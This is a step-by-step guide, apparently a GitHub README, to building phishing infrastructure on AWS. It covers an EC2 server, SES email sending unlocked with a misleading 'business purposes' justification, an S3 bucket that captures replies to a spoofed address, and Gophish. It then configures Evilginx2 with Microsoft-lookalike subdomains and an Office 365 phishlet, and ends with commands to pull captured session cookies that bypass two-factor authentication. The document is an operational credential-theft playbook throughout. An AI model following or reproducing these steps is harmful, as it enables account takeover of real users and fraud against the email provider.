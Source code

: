 ### Creating your EC2 Instance

1. Search Bar EC2
2. Launch Instance
3. Ubuntu Server XX.XX -> Select
4. t2 micro -> Review and Launch
5. Launch
6. Create new key pair
7. Name (phishing.pem) -> Save
8. Lauch Instance
9. View Instances

### Configuring AWS Security Groups

1. Security Groups
2. Create security group
3. Name (Phishing)
4. Inbound rules -> Add rule

| Type | Port Range | Source | Description |
| ---- | ---------- | ------ | ----------- |
| Custom TCP | 22 | Anywhere iPv4 | SSH |
| Custom UDP | 53 | Anywhere iPv4 | DNS |
| Custom TCP | 80 | Anywhere iPv4 | HTTP |
| Custom TCP | 443 | Anywhere iPv4 | HTTPS |
| Custom TCP | 3333 | Anywhere iPv4 | Gophish admin |

5. Create security group
6. Instances -> Security group -> Click -> Security -> Change security group
7. Remove -> Add (Phishing) -> Add security group
8. Save

### Connecting To EC2 Instance

Web

1. Right Click -> Connect -> Connect

Linux

1. ssh -i phishing.pem ubuntu@(ip)

Windows

1. download putty
2. PuTTY Key Generator -> Load -> phishing.pem -> Open -> Ok -> Save private key -> Save
3. PuTTY -> (ip) -> SSH Tab -> Auth Tab -> Browse -> phishing.ppk -> Open -> Session -> Open

### Setting up Amazon Simple Email Services

1. Search Bar SES
2. Domains
3. Verify a New Domain
4. enter (phish1ng.com)
5. ✓ Generate DKIM Settings
6. Verify This Domain
7. Use Route 53
8. Create Record Sets

### Moving Out of the SES Sandbox

1. Search Bar SES
2. Email Sending -> Sending Statistics
3. Edit your account details
4. Enable production access: Yes
5. Website URL: (phish1ng.com)
6. Use case description: Creating for bussiness purposes
7. Submit for review *2 Days

[HELP?: Moving out of the Amazon SES sandbox](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/request-production-access.html)

### Creating S3 Bucket to Capture Email Responses

1. Search Bar S3
2. Email Receiving -> Rule Sets
3. Create a Rule set
4. Rule set name: (phishingrules) -> Create a Rule set
5. Click (phishingrules) -> Create Rule
6. (email to be spoofed) -> Add Recipient -> Next Step
7. Add Action: S3
8. S3 Bucket: Create S3 bucket
9. (unique bucket name) -> Create Bucket -> Next Step
10. Rule Name: (phishingrule) -> Next Step
11. Create Rule
12. Email Receiving -> Rule Sets
13. Select (phishingrules) Set as Actice Rule set
14. Search Bar Route53
15. Create record
16. Record type: MX - Specific mail servers 
17. Value: 10 inbound-smtp.us-west2.amazonaws.com -> Create records

[HELP?: How can I use Amazon SES to receive inbound emails, and then store those emails on Amazon S3?](https://aws.amazon.com/premiumsupport/knowledge-center/ses-receive-inbound-emails/)

### Creating SMTP Settings

1. Search Bar SES
2. SMTP Settings -> Create My SMTP Credentials
3. Create
4. Download Credentials

### Installing Gophish

install
```
sudo apt update -y && sudo apt upgrade -y
sudo apt install golang
go get github.com/gophish/gophish
cd go/src/github.com/gophish/gophish/
go build
```

config to listen to all
```
vim config.json

"listen_url": "0.0.0.0:3333" 
```

run
```
sudo ./gophish
```

### Installing Evilginx2

install
```
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
```

run
```
sudo ./bin/evilginx -p ./phishlets/
```

### Configuring Evilginx2 for Phishing

config domain and ip
```
: config domain (phish1ng.com)
: config ip (ip)
```

route53
1. Search Bar route53
2. Create record
3. Record name: microsoft
4. Record type: A - Routes traffic to an iPv4 address and so...
5. Value: (ip)
6. Create records *24 hours

Create more 
- Record name: account.microsoft
- Record name: login.microsoft
- Record name: www.microsoft
- Record name: outlook.microsoft

config phishlet
```
: phishlets hostname o365 (microsoft.phish1ng.com)
: phishlets enable o365
```

create lure
```
: lures create o365
: lures get-url 0
```

bypass 2-factor
```
: sessions                  #show all sessions
: sessions 4                #show all details about session 4
#copy json paste to cookie editor
```
